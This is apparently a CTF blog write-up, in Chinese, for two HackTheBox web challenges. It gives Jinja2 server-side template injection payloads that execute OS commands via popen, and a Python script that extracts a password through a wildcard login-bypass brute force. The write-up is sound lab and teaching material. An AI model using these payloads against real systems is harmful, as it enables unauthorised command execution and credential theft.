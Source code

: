 ```yaml
---
layout: mypost
title: HACKTHEBOX Challeges Web
categories: [ctf]
---
```


## Templated

flask/jinja2 SSTI模板注入

<http://IP:PORT/{{config>}}

<http://IP:PORT/{{request.application>.__globals__.__builtins__.__import__('os').popen('id').read()}}

```sh
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

然后就是查看目录，查看flag.txt内容

-----

## Phonebook

用户名密码使用*登录跳转

网页看到用户名reese，暴力破解密码

```python
import requests

list = []
for i in range(33, 127):
    list.append(chr(i))
list.remove('*')

url = 'http://IP:PORT/login'
myobj = {'username': 'reese', 'password': 'brucepass'}
result = ''
flag = 1
while flag == 1:
    flag = 0
    for l in list:
        myobj['password'] = result + l + '*'
        r = requests.post(url, data=myobj)
        if ('No search results' in r.text):
            result += l
            flag = 1
            print(result)
            break
print('Done')
```
